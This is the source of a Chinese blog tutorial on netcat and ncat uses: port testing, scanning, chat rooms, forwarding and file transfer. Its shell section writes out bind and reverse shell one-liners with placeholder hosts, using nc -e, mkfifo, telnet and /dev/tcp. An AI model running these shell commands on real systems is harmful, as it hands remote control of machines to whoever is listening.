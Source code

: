 ```yaml
---
layout: post
title: NC 的简单应用
description: 瑞士军刀 nc, 你的想象力是局限 nc 的瓶颈
category: opinion
---
```


NC ，不仅代表是 netcat ，还有其加强版 ncat 。

NetCat 是 GNU 开源的网络请求工具， Ncat 是面向21世纪的 netcat，是 Nmap 工具集的一部分，nc 可以用来 读/写 TCP/UDP 网络连接。

nc 不仅可以请求，还能监听 (-l) 网络连接, 不仅支持 TCP 协议，还支持 UDP 协议(-u)，不仅可以在 ipv4 (-4) 网络下进行，还支持 ipv6 (-6)。

```
brew install nmap
```

或者

```
yum install nc
```

即可安装 ncat

## 网络请求

nc 一开始也最基础的功能，发起网络请求，可以用来测试端口是否开启。

TCP `nc -zv addr port`

UDP `nc -zvu addr port`

> 连接 udp 端口有些不准


## 端口扫描

```
nc 127.0.0.1 10-100
```

或者 `nc -z 127.0.0.1 10-100` 端口扫描，侦查功能。


## 网络聊天室

nc 主要用来请求并保持一个网络连接，也可以用来监听一个端口。

比如打开一个 TCP 连接，发送 HTTP 协议请求。 `nc IP_address port_numbe` 连接模式。

```
> nc 127.0.0.1 5002
HEAD / HTTP/1.1

HTTP/1.1 200 OK
Etag: 17f803-3de2-5a560fb2
Content-Type: text/html; charset=utf-8
Content-Length: 15842
Last-Modified: Wed, 10 Jan 2018 13:05:54 GMT
Cache-Control: private, max-age=0, proxy-revalidate, no-store, no-cache, must-revalidate
Server: WEBrick/1.3.1 (Ruby/2.4.1/2017-03-22)
Date: Wed, 10 Jan 2018 13:07:21 GMT
Connection: Keep-Alive

GET / HTTP/1.1

HTTP/1.1 200 OK
Etag: 17f803-3de2-5a560fb2
Content-Type: text/html; charset=utf-8
Content-Length: 15842
Last-Modified: Wed, 10 Jan 2018 13:05:54 GMT
Cache-Control: private, max-age=0, proxy-revalidate, no-store, no-cache, must-revalidate
Server: WEBrick/1.3.1 (Ruby/2.4.1/2017-03-22)
Date: Wed, 10 Jan 2018 13:07:30 GMT
Connection: Keep-Alive

<!DOCTYPE html>
<html>
<head>
...
```

使用 `nc -l IP_address port_numbe` 监听模式。

一个终端使用 `nc -l 127.0.0.1 8090` 开启监听，一个终端使用 `nc 127.0.0.1 8090` 保持连接，即可进行聊天室功能。

但是这样只能点对点双方交流，不能进行多方交流，且建立连接之后任意一方断开连接，则双方都会终止。在 ncat 中新增了订阅者模式，可以由一个 server 提供服务，多个 client 之间相互交流，这样就够搭建一个完整的即时通讯聊天室。

启动 server

```
ncat -l 8888 --broker
```

然后使用多个 client 连接即可。

![ncat_chatroom.png](/images/ncat_chatroom.png)

## UDP 协议支持

开启 UDP 端口监听 `ncat -l -u 8999`

可以使用 `netstat` 查看端口是否开放

```
netstat -tunlp|grep 8999
```

或者使用 netstat 进行通信，建立 UDP 的聊天室。

```
nc -u 127.0.0.1 8999
```

## 反向代理

除了 nginx 可以做反向代理，nginx 也可以实现一个简单的反向代理服务。

> 其实就是端口转发

```
ncat -l 8089| ncat 127.0.0.1 5002
```

这样只能单向代理，即发往 8089 的流量会被代理至 5002 端口上，但是 5002 端口返回的数据，不能通过 8089 再继续返回给我们。

```
mkfifo /tmp/fifo
cat /tmp/fifo | nc 127.0.0.1 5002 | nc -l 9000 > /tmp/fifo
```

双向代理，亲测 HTTP, MySQL 转发可用。

或者这样

```
ncat -l 8068 -c 'ncat 127.0.0.1 5002
```

## shell

nc 的一个经典应用，分为正向 shell 和反向 shell，分别表示客户端控制服务器，和服务器控制客户端。

### 正向 shell

服务器上 (需要有公网地址)

```
nc -l -p 5555 -t -e /usr/bin/bash
```

客户端

```
nc [host] 5555
```

即可在客户端操纵服务器。

也可以操作 Windows `nc -l -p 5555 -t -e cmd.exe`

正向 shell 也可以这样

```
mkfifo /tmp/fifo
cat /tmp/fifo | /bin/bash -i 2>&1 | nc -l 8000 > /tmp/fifo
```

### 反向 shell

在客户端机器上 (需要有公网地址)

```
nc -lp 5555
```

服务器上

```
nc -t -e /usr/bin/bash [ip] 5555
```

即可在客户端操纵服务器。

反向 shell 也可以这样

```
mkfifo /tmp/fifo
cat /tmp/fifo | /bin/bash -i 2>&1 | nc [ip] 8001 > /tmp/fifo
```

用 Telnet 也可以 `rm bd;mkfifo bd;cat bd|/bin/sh -i 2>&1|telnet  <target IP> <port> >bd`

甚至是 bash `bash -c "bash -i &>/dev/tcp/<target IP>/<port> 0>&1`

正向 shell 与反向 shell 的区别就在与被操纵者有没有公网地址。

## 传输文件

接收端

```
ncat -lp 3333 > 1.mp4
```

发送端

```
ncat -nv --send-only [ip] 3333 < 1.mp4
```

或者先起发送端

```
ncat --send-only -lp 3333 <a.mp4
```

再起接收端

```
nc -nv [ip] 3333 >a.mp4
```

## 保持连接

在 nc shell 中，当客户端连接断掉之后就会自动终止，可以通过加参数 `-k` 来保持连接。

正向 shell

```
nc -l -p 5555 -t -e /usr/bin/bash -k
```
